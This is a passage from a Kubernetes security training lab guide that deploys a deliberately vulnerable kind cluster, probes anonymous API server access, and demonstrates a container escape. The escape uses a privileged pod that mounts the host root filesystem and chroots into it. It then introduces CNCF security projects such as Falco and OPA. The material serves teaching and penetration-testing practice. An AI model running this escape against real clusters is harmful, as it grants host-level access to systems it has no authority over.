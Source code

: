 #### **Lab Preparation**
1. Deploy vulnerable test cluster:
   ```bash
   kind create cluster --config kind-config.yaml
   ```
   (Use config with exposed API server and privileged pods)

#### **Step-by-Step Lab Guide**
1. **Simulate API Server Attack**:
   ```bash
   # Find API server endpoint
   kubectl cluster-info
   
   # Attempt anonymous access
   curl -k https://<api-server-ip>:<port>/version
   ```

2. **Container Escape Demo**:
   ```bash
   # Run privileged container
   kubectl run priv-pod --image=alpine --overrides='{"spec":{"containers":[{"name":"priv-pod","image":"alpine","command":["sh","-c","chroot /host"],"securityContext":{"privileged":true},"volumeMounts":[{"name":"host-root","mountPath":"/host"}]}],"volumes":[{"name":"host-root","hostPath":{"path":"/"}}]}}'
   
   # Access host filesystem
   kubectl exec -it priv-pod -- ls /host
   ```

#### **Common Issues & Troubleshooting**
- **Privileged pod fails**: Check if cluster allows privileged containers
- **API server inaccessible**: Verify network policies and firewall rules

#### **Real-World Applications**
- **Penetration Testing**: Simulate attacks to validate defenses
- **Security Architecture**: Design clusters with attack surface reduction
- **Incident Simulation**: Train teams on threat response

#### **Further Resources**
- [MITRE ATT&CK for Containers](https://attack.mitre.org/matrices/enterprise/container/)
- [Kubernetes Threat Matrix](https://www.microsoft.com/security/blog/2020/04/02/secure-microservices-applications-with-kubernetes-part-1/)

---

### **Module 3: CNCF Projects**
#### **Learning Objectives**
- Identify key CNCF security projects
- Implement Falco for runtime security
- Use OPA for policy management

#### **Key Concepts**
- **CNCF Security Landscape**: Runtime security, policy enforcement, supply chain
- **Falco**: Runtime security monitoring
- **OPA**: Policy-as-Code framework
- **SPIFFE/SPIRE**: Identity management
